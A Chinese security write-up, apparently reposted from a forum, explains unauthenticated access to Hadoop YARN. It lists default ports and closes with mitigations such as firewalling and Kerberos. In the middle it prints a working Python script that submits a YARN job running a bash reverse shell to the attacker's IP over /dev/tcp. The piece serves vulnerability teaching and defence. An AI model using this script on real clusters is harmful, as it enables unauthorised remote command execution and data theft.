



# Hadoop未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/2962](https://www.zhihuifly.com/t/topic/2962)

# Hadoop未授权访问

## 一、漏洞简介

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce 算法进行分布式处理。这个框架被Adobe，Last fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

*   用户创建一个处理键值的map函数
*   产生了一套中间键/值
*   reduce函数合并中间值并把他们关联到对应的键

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

##### 1.1 常见端口



##### 1.2 敏感端口

| 模块 | 节点 | 默认端口 |
| --- | --- | --- |
| HDFS | NameNode | 50070 |
| HDFS | SecondNameNode | 50090 |
| HDFS | DataNode | 50075 |
| HDFS | Backup/Checkpoint node | 50105 |
| MapReduce | JobTracker | 50030 |
| MapReduce | TaskTracker | 50060 |

通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。



#### 2\. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API 也可以提交任务执行。

利用过程如下：

*   在本地监听等待反弹 shell 连接
*   调用 New Application API 创建 Application
*   调用 Submit Application API 提交

**P牛的攻击脚本**

```
##!/usr/bin/env python

import requests

target = ‘[http://127.0.0.1:8088/](http://127.0.0.1:8088/)’

lhost = ‘192.168.0.1’ ## put your local host ip here, and listen at port 9999 `url = target + ‘ws/v1/cluster/apps/new-application’

resp = requests.post(url)

app_id = resp.json()[‘application-id’]

url = target + ‘ws/v1/cluster/apps’

data = {

‘application-id’: app_id,

‘application-name’: ‘get-shell’,

‘am-container-spec’: {

‘commands’: {

‘command’: ‘/bin/bash -i >& /dev/tcp/%s/9999 0>&1’ % lhost,

},

},

‘application-type’: ‘YARN’,

}

requests.post(url, json=data)` 
```



#### 3\. 防范措施

1.  网络访问控制
    使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

2.  启用认证功能
    启用 Kerberos 认证功能。

3.  更新补丁
    不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。